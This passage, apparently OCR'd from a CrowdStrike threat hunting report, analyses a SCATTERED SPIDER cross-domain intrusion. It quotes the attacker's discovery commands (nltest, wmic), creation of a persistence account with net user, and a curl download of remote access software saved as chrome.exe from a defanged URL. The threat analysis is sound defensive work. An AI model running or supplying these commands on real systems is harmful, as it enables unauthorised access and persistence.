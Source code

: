 organization, likely to identify their level of access and visibility within the 
network. The adversary then ran several variations of the nltest command 
to identify domain controllers (DCs) of interest and the wmic command to 
identify programs currently installed on the host.
Finally, the adversary established persistence by creating a new user on the host 
and attempting to download FleetDeck remote access software.
nltest dclist:
nltest domain\_trusts
wmic product get name, version
net user \[Redacted\-Username] \[Redacted\-Password]
curl \-L hxxps:agent.fleetdeck\[.]io
M9zydGyGHrUXkhZeB9mj4?win \-o chrome.exe17
CROWDSTRIKE 2024 THREAT HUNTING REPORT17
This attack took place across three operating domains: email, then cloud 
management, then within a VM. Because of this, the detectable footprint of this 
activity in any single detection domain was very low and difficult to conclusively 
signature. Quickly identifying such an attack relied on leveraging knowledge 
about SCATTERED SPIDER from CrowdStrikes extensive threat intelligence and 
prior experience, combining this knowledge with telemetry from the control 
plane and correlating this information against detections from within the virtual 
machine to successfully recognize an intrusion underway.
Many adversaries are honing their cross\-domain proficiency, and an increasing 
number are attempting to develop capabilities that expand to multiple security 
domains. Such adversaries can quickly and confidently navigate multiple 
operating systems and security platforms. Whether the adversary is leveraging 
native applications or cross\-platform custom tools, threat hunters must be 
flexible and quickly adapt to any target environment.

QUICKLY IDENTIFYING 
SUCH AN ATTACK RELIED ON 
LEVERAGING KNOWLEDGE ABOUT 
SCATTERED SPIDER FROM 
CROWDSTRIKES EXTENSIVE 
THREAT INTELLIGENCE AND 
PRIOR EXPERIENCE.
Figure 5\. SCATTERED SPIDER cross\-domain attack
SCATTERED SPIDER 
Cross\-Domain Attack
IDENTITY 
Conducted a 
phishing campaign 
to obtain valid 
credentials
CLOUD 
Leveraged 
the credentials 
to authenticate 
to the cloud 
control plane
CLOUD 
Established a foothold 
on a cloud\-hosted VM 
via a cloud service 
VM management agent, 
which took commands 
from the cloud control 
plane and ran them on 
the instance under 
the agent process
ENDPOINT 
Established 
persistence by 
creating a new user 
and downloading 